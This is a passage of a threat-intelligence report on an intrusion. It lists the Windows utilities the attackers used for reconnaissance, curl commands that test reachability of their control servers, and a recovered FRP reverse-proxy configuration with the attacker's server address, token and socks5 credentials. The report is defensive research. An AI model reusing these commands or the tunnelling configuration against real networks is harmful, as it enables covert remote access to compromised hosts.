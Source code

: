 
After that, they conducted reconnaissance in the network using built-in system utilities:
	

regsvr32.exe,
cmd.exe,
ipconfig.exe,
taskmgr.exe,
ping.exe,
nltest.exe,
netstat.exe,
tasklist.exe,
quser.exe,
nslookup.exe.


To check the accessibility of control servers, the attackers used the Curl utility built into the Windows operating system and (or) their own ProxyTest utility (see «the Analysis of malware and tools section»). This utility is designed for checking the HTTP accessibility of a resource from remote computers.
	

Command examples:
	

curl -i http://42.99.116.14
curl -i https://jumper.funding-exchange.org
proxyT.exe http://45.99.116.14


The infected hosts were controlled by the attackers using the public utility FRP (fast reverse proxy), written in Golang. This utility allows connecting to a reverse proxy server. The attackers' requests were routed using the socks5 plugin through the server address (45.91.24.73:8996) obtained from the configuration data.


Here is an example of a configuration file that was restored while analyzing the RAM dump of one of the infected hosts:

    
[common] 
server_addr = 45.91.24.73 
server_port = 80 
token = 7tBjjTqYGmHg5PY8zYUL 
[mobi_socks5] 
type = tcp 
remote_port =8996 
plugin = socks5 
use_encryption = true 
use_compression = true 
tls_enable = true 
dns_server = 8.8.8.8
plugin_user = 95ReuhTj7Wd2Xfr
plugin_passwd = XCWJt92Xxzb2L5N
	    
	

FRP was also used in attacks on government agencies in East Asia, as reported in the article by Avast's researchers. 
